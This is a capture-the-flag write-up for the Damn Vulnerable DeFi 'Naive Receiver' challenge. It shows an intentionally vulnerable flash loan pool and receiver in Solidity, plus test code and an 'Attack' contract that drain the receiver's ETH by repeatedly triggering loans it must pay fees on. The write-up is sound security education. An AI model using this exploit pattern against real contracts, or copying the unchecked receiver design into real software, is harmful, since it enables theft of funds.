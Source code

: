 # 02_NaiveReceiver

## Challenge

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

You are provided with the code for the flashloan providing pool:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "solady/src/utils/SafeTransferLib.sol";
import "./FlashLoanReceiver.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard, IERC3156FlashLender {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    error RepayFailed();
    error UnsupportedCurrency();
    error CallbackFailed();

    function maxFlashLoan(address token) external view returns (uint256) {
        if (token == ETH) {
            return address(this).balance;
        }
        return 0;
    }

    function flashFee(address token, uint256) external pure returns (uint256) {
        if (token != ETH)
            revert UnsupportedCurrency();
        return FIXED_FEE;
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }

    // Allow deposits of ETH
    receive() external payable {}
}
```

you also get the code for the Reveiver:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver is IERC3156FlashBorrower {

    address private pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    error UnsupportedCurrency();

    constructor(address _pool) {
        pool = _pool;
    }

    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive() external payable {}
}
```

## Solution

If we take a look at the testcase, we see that to solve the challenge all money in the receiver shall be drained and all of it shall now be in the pool.

### Easy way

As the receiver just pays the fee for any call it gets from its pool we can just call the pool 10x and set the receiver to receive the flash loan and have to pay the 1 ETH fee. This can be just achieved by calling flashloan 10x:

```js
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */

        const ETH = await pool.ETH();
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
    });
```

After this the receiver has transferred all his money to the pool and we solved the challenge

### Hard Way

The description state that we should also be able to do everything in one transaction. This is also achievable pretty easy. I just implemented a small attack contract, which if called, just calls the same flashloan function 10x. So we have one tx for everything. 

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./NaiveReceiverLenderPool.sol";
import "./FlashLoanReceiver.sol";

contract Attack {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    function getEmBoyz(address payable receiver, address payable pool) public
    {
        for (uint256 i = 0; i < 10; i++) {
            NaiveReceiverLenderPool(pool).flashLoan(FlashLoanReceiver(receiver), ETH, NaiveReceiverLenderPool(pool).maxFlashLoan(ETH), "0x");
        }
    }
}
```

We then just deploy this contract and call its function getEmBoyz().

```js
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    const Attack = await ethers.getContractFactory('Attack', player);
    attack = await Attack.deploy();
    await attack.connect(player).getEmBoyz(receiver.address, pool.address);
});
```

This yields us the same result, in one instead of ten txs.